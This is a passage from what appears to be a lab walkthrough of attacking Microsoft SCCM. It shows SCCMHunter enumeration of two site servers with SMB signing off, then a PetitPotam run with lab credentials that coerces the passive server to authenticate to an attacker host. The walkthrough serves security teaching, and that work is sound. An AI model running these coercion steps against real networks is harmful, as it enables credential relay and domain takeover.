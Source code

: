 ### SCCMHunter

The results of the `find` module indicate:
- The *SCCM.INTERNAL.LAB* and *PASSIVE.INTERNAL.LAB* sytems are both site servers in the "LAB" site
- The *SCCM.INTERNAL.LAB* host is the active site server and the *PASSIVE.INTERNAL.LAB* host is the passive site server
- SMB signing is disabled on both systems


```
[04:24:43 PM] INFO     [+] Finished profiling Site Servers.                                                                                                                                                                                                                                    
[04:24:43 PM] INFO     +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       | Hostname             | SiteCode          | SigningStatus   | SiteServer   | SMSProvider   | Active   | Passive   | MSSQL   |                                                                                                                                          
                       +======================+===================+=================+==============+===============+==========+===========+=========+                                                                                                                                          
                       | sccm.internal.lab    | LAB               | False           | True         | True          | True     | False     | False   |                                                                                                                                          
                       +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+                                                                                                                                          
                       | passive.internal.lab | LAB               | False           | True         | True          | False    | True      | False   |                                                                                                                                          
                       +----------------------+-------------------+-----------------+--------------+---------------+----------+-----------+---------+ 
```

### PetitPotam

 - Valid domain credentials are used to coerce authentication from the *PASSIVE.INTERNAL.LAB* passive site server to the attacker host

```
┌──(root㉿DEKSTOP-2QO0YEUW)-[/opt/PetitPotam]
└─# python3 PetitPotam.py -u lowpriv -p P@ssw0rd 10.10.100.136 passive.internal.lab

                                                                                               
              ___            _        _      _        ___            _                     
             | _ \   ___    | |_     (_)    | |_     | _ \   ___    | |_    __ _    _ __   
             |  _/  / -_)   |  _|    | |    |  _|    |  _/  / _ \   |  _|  / _` |  | '  \  
            _|_|_   \___|   _\__|   _|_|_   _\__|   _|_|_   \___/   _\__|  \__,_|  |_|_|_| 
          _| """ |_|"""""|_|"""""|_|"""""|_|"""""|_| """ |_|"""""|_|"""""|_|"""""|_|"""""| 
          "`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-'"`-0-0-' 
                                         
              PoC to elicit machine account authentication via some MS-EFSRPC functions
                                      by topotam (@topotam77)
      
                     Inspired by @tifkin_ & @elad_shamir previous work on MS-RPRN



Trying pipe lsarpc
[-] Connecting to ncacn_np:passive.internal.lab[\PIPE\lsarpc]
[+] Connected!
[+] Binding to c681d488-d850-11d0-8c52-00c04fd90f7e
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
```